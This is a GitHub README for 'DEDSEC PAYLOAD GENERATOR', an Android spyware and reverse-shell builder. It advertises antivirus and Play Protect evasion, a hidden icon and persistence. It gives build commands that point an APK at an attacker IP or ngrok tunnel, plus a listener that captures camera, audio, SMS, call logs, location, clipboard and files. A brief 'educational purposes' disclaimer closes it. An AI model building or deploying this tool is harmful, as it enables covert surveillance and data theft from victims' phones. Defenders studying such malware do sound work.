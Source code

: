 
DEDSEC PAYLOAD GENERATOR is a tool can create undetectable payload for android 10-12 and control android phone remotely and retrieve informations from it. 

## Features
* Full persistent backdoor
* Google Play Protect bypass
* Fully undetectable by android 10 - 12 antivirus scanner
* Invisible icon on install
* Light weight apk which runs 24*7 in background
* App starts automatically on boot up 
* Can record audio, video, take picture from both camera
* Browse call logs and SMS logs
* Get current location, sim card details ,ip, mac address of the device

## Prerequisites
* Python3 and JAVA (or Android Studio)
* sudo - [ MUST ]

## Installation
```
git clone https://github.com/0xbitx/dedsec-payload-generator.git
cd dedsec-payload-generator
pip install -r requirements.txt
```
### TESTED ON FOLLOWING:
* Kali Linux
* Parrot OS
* Ubuntu
* Arch Linux

### Available Modes
* `--build` - for building the android apk 
* `--ngrok` - for using ngrok tunnel (over the internet)
* `--shell` - getting an interactive shell of the device

### `build` mode

```
Usage:
  sudo python3 dedsec-fud.py --build --ngrok [flags]
  Flags:
    -p, --port              Attacker port number (optional by default its set to 8000)
    -o, --output            Name for the apk file (optional by default its set to "dedsec-payload.apk")
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

```
Usage:
  sudo python3 dedsec-fud.py --build [flags]
  Flags:
    -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

Or you can manually build the apk by importing [Android Code](Android_Code) folder to Android Studio and changing the IP address and port number in [config.java](Android_Code/app/src/main/java/com/example/reverseshell2/config.java) file and then you can generate the signed apk from `Android Studio -> Build -> Generate Signed APK(s)`
### `shell` mode
```
Usage:
  sudo python3 dedsec-fud.py --shell [flags]
  Flags:
    -i, --ip                Listner IP address
    -p, --port              Listner port number
```
After running the `shell` mode you will get an interpreter of the device  

Commands which can run on the interpreter
```
    deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a sh shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
    getLocation                --> return the current location of the device
    getIP                      --> returns the ip of the device
    getSimDetails              --> returns the details of all sim of the device
    clear                      --> clears the screen
    getClipData                --> return the current saved text from the clipboard
    getMACAddress              --> returns the mac address of the device
    exit                       --> exit the interpreter
```
In the sh shell there are some sub commands
```
    get [full_file_path]        --> donwloads the file to the local machine (file size upto 15mb)
    put [filename]              --> uploads the file to the android device
```

## Examples

* To build the apk using ngrok which will also set the listner:
```sudo python3 dedsec-fud.py --build --ngrok -o payload.apk```

* To build the apk using desired ip and port:
```sudo python3 dedsec-fud.py --build -i 192.169.x.x -p 8000 -o payload.apk```

* To get the interpreter:
```sudo python3 dedsec-fud.py --shell -i 0.0.0.0 -p 8000```

### DISCLAIMER
   TO BE USED FOR EDUCATIONAL PURPOSES ONLY

The use of the dedsec-tool is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program. 

